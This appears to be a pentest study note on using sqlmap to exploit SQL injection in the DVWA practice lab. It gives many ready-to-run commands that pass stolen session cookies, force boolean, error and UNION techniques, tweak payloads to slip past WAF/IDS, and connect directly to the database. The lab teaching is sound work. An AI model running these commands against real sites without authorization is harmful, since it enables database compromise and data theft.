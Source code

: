 # 01 - Exploit

Search Tag(s): #sql-injection #sqlmap #boolean-based #error-based #union #dvwa

TODO: Fill in the rest of the output when necessary - Userware

## 1.1 - Authenticate with Cookies

### 1.1.1 - Grab cookies from web console

- To add cookies open the web console **`CTRL + SHIFT + K`** in Firefox. Then type `document.cookie` to copy the cookies to allow SQLMap to authenticate.

### 1.1.2 - Grab cookies from the network monitor

- Open network monitor **`CTRL + SHIFT + E`** then refresh webpage. Click on the request with the current **Domain** you're targeting. It'll open request details from the right. In **Headers**, scroll down till you find **Request Headers**. Then copy the cookie HTTP header.

### 1.1.3 - Grab cookies from the storage

- Open the storage **`SHIFT + F9`** in Firefox. Copy the **Name** and **Value** of the cookies.

---

- SQLMap will automate by injecting queries of every possible techniques by default it uses `--technique=BEUSTQ` and it'll enumerate the DBMS server.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent
```

### 1.1.4 - Specify Database Management System Backend

- Force the DBMS to skip automatic enumeration using the flag `--dbms=mysql`

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql
```

## 1.2 - Authentication methods without using cookies

### 1.2.1 - Direct connection to the database

- If the DBMS backend has an exposed port when probing the server with `nmap` and you have credentials.

```
$ sqlmap -d "mysql://dvwa:"p@ssw0rd"@dvwa.local:3306/dvwa" -f --banner --dbs --users
```

## 1.3 - Specify SQL query technique

- You can specify SQL injection techniques. It also speeds up the process.

### 1.3.1 - Boolean-Based Query SQL Injection

- We can also specify a [[02 - Craft Exploit|boolean-based blind]] query that can be used for bypassing form-based authentication. This requires you to understand how the backend works explained from [[Tactics && Techniques && Procedures (TTPs) Phases/WebApp Hacking/Injection/SQL Injection/01 - In-Band SQL Injection/Lab Simulation/01 - DVWA/Difficulty/Low/Manual/01 - Boolean-Based Query SQL Injection/01 - Blackbox Testing|blackbox testing]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=B
```

#### 1.3.1.1 - Page Comparison

- To narrow it down even further we can filter it via `--test-filter` flag the SQL query payloads based on the XML tags contains title (`<title>`)  or payload name (`<payloads>`) which is located in `sqlmap/data/xml/payloads/` directory. We've crafted the payload with just the `OR` operator to [[02 - Craft Exploit#^9167dd|exploit]] it. We can exclude SQL queries using `--test-skip` to remove such operators that we haven't used like `NOT`. The valid response returns the output with all of the records. We'll append it with `--string=admin` as true. Finally we'll add `--code` to include the HTTP status code 200 response.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=B --test-filter="OR boolean-based blind" --test-skip="NOT" --string="admin" --code="200"
```

- Another option to consider for boolean-based SQL injection is when you encounter multiple data sets when returning a valid response when exploiting it. Use a regular expression flag `--regexp="(admin|Gordon|Brown|Hack|Me|Pablo|Picasso|Bob|Smith)"`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=B --test-filter="OR boolean-based blind" --test-skip="NOT" --regexp="(admin|Gordon|Brown|Hack|Me|Pablo|Picasso|Bob|Smith)" --code="200"
```

### 1.3.2 - Error-Based Query SQL Injection

- It's often referred as double query or subquery injection.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=E
```

#### 1.3.2.1 - Invalidate Values

- Exceeding the boundary limits gives a room for our SQL injection process to avoid further overlaps for sqlmap to process the data quickly in a much cleaner data dump.

#### 1.3.2.1 - Invalidate Values

- [[02 - Craft Exploit#^33ca41|Exceeding the boundary limits]] using `--invalid-bignum`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --invalid-bignum --random-agent --dbms=mysql --technique=E
```

- Tamper the parameter with [[02 - Craft Exploit#^860e62|SQL operators]] using `--invalid-logical`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --invalid-logical --random-agent --dbms=mysql --technique=E
```

- Tamper the parameter with [[02 - Craft Exploit#^840ca1|random strings]] using `--invalid-string`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --invalid-string --random-agent --dbms=mysql --technique=E
```

### 1.3.3 - UNION Query SQL Injection

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=U
```

- You can specify number of columns after performing [[Tactics && Techniques && Procedures (TTPs) Phases/WebApp Hacking/Injection/SQL Injection/01 - In-Band SQL Injection/Lab Simulation/01 - DVWA/Difficulty/Low/Manual/03 - UNION Query SQL Injection/01 - Database Reconnaissance#^78ef92|fields enumeration]] with `--union-cols` flag.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2
```

- By default when enumerating the number of fields it uses `NULL` character. In some instances that WAF/IDS might flag it. We can use `--union-char` with a random combination of characters.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-char="1234567890"
```

- Some instances of DBMSes may require a valid table in order to proceed by exploiting the vulnerability. Especially when it comes to UNION technique we can use `--union-from` to specify the table `mysql.user` that comes by default in MySQL.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-from=mysql.user
```

## 1.4 - Specify Boundaries

- You can specify the boundaries with flags `--prefix="'"` and `--suffix="#"` after performing manual enumeration in the [[02 - Craft Exploit#^a3394c|joining the query]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --prefix="'" --suffix="#"
```

- To combine everything in one command based on the vulnerable webapp we've encountered. This is the final exploit via UNION technique.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --method="GET" --random-agent --dbms=mysql --prefix="'" --suffix="#" --technique=U --union-cols=2 --union-from=mysql.user
```

## 1.5 - Retrieve SQL statement

- The `--statements` flag retrieves the SQL queries of how `sqlmap` was able to exploit the vulnerable backend webserver.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --statements
```